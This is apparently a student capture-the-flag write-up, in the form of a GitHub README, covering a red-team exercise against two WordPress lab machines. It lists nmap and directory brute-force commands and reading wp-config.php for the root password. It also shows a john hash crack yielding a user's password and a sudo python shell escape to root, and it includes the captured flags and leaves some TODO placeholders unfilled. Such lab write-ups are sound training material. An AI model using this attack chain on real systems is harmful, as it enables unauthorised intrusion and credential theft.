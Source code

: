 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
- flag1.txt: 9bbcb33e11b80be759c4e844862482
  - Exploit (dirbuster)
   - dirbuster was used to uncover the file path that led to the flag exposure.
   - dirbuster command 
   
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
  - Exploit Used (gobuster)
   - gobuster - exposed directory path (flag was discovered at 192.168.1.110/vendor/PATH)
   - gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.110        
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/gobuster%20vm1.png)
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM2%20Index_Vendor.png)
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/dirbuster%20path%20to%20flag2.png)    
     
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
  - Exploit Used
    -![TODO:] exposed root password and then uncovered hashes via mysql
    -![TODO:] mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
  - Exploit Used
   - john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
   - ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
 - Exploit Used 
   -![TODO:] gobuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
   -![TODO:] gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115
- flag2.txt: 
 - Exploit Used
   -![TODO:] Identify the exploit used.
   -![TODO:] Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
 - Exploit Used
   -![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
   -![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
- flag4.txt: 
 - Exploit Used
   -![TODO:] Identify the exploit used.
   -![TODO:] Include the command run.

